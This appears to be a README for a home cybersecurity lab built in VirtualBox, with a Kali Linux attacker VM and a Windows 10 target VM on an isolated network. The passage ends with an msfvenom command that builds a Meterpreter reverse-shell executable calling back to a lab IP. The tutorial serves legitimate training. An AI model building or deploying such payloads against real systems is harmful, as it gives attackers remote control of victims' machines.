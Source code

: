 # 🧪 Cybersecurity Home Lab Setup 
---

## 📄 Description

This project sets up a virtualized cybersecurity lab using VirtualBox to simulate attacker-victim scenarios. It includes configuring a Kali Linux attacker machine and a Windows 10 target machine on a host-only/internal network. The environment provides a safe and isolated setup for testing network attacks, reverse shells, and other ethical hacking techniques.

---

## 🖥️ Environments Used

- **Host OS**: Windows 10 or macOS
- **Virtualization**: VirtualBox (v7.x) + Extension Pack
- **Attacker VM**: Kali Linux
- **Target VM**: Windows 10 (Eval or ISO)

---

## 🛠️ Languages and Tools Used

- VirtualBox
- Kali Linux Tools (nmap, msfvenom, etc.)
- Windows Sysinternals
- Meterpreter (Metasploit Framework)

---

## ⚙️ Program Walkthrough

---

### 1. Install VirtualBox & Extension Pack

Install Oracle VirtualBox and its Extension Pack from [virtualbox.org](https://www.virtualbox.org/).

📸 *Screenshot Example:*  
![VirtualBox Installed](./screenshots/virtualbox-launch.png)

---

### 2. Create Virtual Machines

Create two VMs with these specs:

| VM        | RAM    | Disk Size | OS         |
|-----------|--------|-----------|------------|
| Kali      | 2 GB   | 20 GB     | Kali Linux |
| Windows   | 4 GB   | 40+ GB    | Windows 10 |

📸 *Screenshot Example:*  
![VM Creation](./screenshots/vm-creation.png)

---

### 3. Configure Network (Host-Only)

Set both VMs to the **Host-Only Adapter** to allow isolated communication.

📸 *Screenshot Example:*  
![Network Config](./screenshots/network-config.png)

---

### 4. Boot VMs and Set IP Addresses

Use `ip a` on Kali and `ipconfig` on Windows to confirm both VMs are on the same subnet.

📸 *Screenshot Example:*  
![Kali IP](./screenshots/kali-ip.png)  
![Windows IP](./screenshots/windows-ip.png)

---

### 5. Install Guest Additions (Windows Only)

Fix resolution on Windows VM by installing Guest Additions.

📸 *Screenshot Example:*  
![Guest Additions](./screenshots/guest-additions.png)

---

### 6. Test Connectivity

Ping each machine from the other to confirm they’re connected.

📸 *Screenshot Example:*  
![Ping Test](./screenshots/ping-test.png)

---

### 7. Generate & Deploy Payload (Optional Preview)

In later parts, we generate a reverse shell using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 -f exe > shell.exe

